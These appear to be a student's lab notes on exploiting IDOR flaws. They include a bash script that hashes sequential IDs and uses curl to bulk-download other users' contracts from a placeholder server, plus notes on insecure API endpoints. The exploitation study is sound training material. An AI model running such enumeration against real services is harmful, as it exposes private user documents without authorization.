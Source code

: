 we can make md5hashes for the ids with the following oneliner:

```shell
 for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

#### question

by inspection source code 

```html
 <script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>
</head>
href="javascript:downloadContract('1')" target="_self">Employment_contract.pdf</a></li>
```

we can see that the uid is passed in and then encoded by the following stpes

1. we base64 encode the uid
2. we then encode the base64 blob with url encoding 
![[Pasted image 20250226145517.png]]
![[Pasted image 20250226145625.png]]
affter perfmoring the fuzzing in the url with burp and examining the requests we get the following anweser on a request
![[Pasted image 20250226145747.png]]

# IDOR in Insecure APIs

 IDOR vulnerabilities may also exist in function calls and APIs, and exploiting them would allow us to perform various actions as other users.

## Identifying Insecure APIs

We see that the page is sending a `PUT` request to the `/profile/api.php/profile/1` API endpoint.

. `PUT` requests are usually used in APIs to update item details, while `POST` is used to create new items, `DELETE` to delete items, and `GET` to retrieve item detail
